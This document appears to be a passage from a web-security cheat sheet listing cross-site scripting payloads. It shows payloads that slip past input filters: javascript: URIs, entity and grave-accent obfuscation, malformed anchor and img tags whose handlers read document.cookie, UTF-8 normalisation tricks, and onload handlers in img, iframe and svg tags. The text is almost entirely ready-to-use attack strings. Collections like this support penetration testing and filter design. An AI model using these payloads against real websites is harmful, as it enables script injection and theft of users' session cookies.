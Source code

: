 ```js
<IMG SRC=javascript:alert('XSS')>
```

#### HTML Entities

```js
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```

#### Grave Accent Obfuscation

-   Hide double and single quotes from filter with grave accent wrapping

```javascript
<IMG SRC=`javascript:alert("Hello, 'XSS'")`>
```

#### Malformed Link Tags `<a>`

```javascript
\<a onmouseover="alert(document.cookie)"\>attacker.domain.com/payload.js\</a\>
```

###### Chrome Edgecase

```javascript
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

#### Malformed `<img>` tags

```js
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

#### UTF8 Normalisation

-   If the target attempts UTF8 normalisation it may be possible to circumvent a filter by replacing parts of a typical payload, like `<>` with UTF8 equivalents. When they are normalized they will become regular `<>` characters exposing the potential for XSS.

```js
＜/p＞＜img src="x" onⅇrror="console.log(1)"/＞
```

### DOM Event Based Payloads

#### Onload

```js
<img onLoad="javascript:alert(1)">
```

```js
<iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>
```

```js
<svg onLoad svg onLoad="javascript:javascript:alert(1)"></svg onLoad>
```
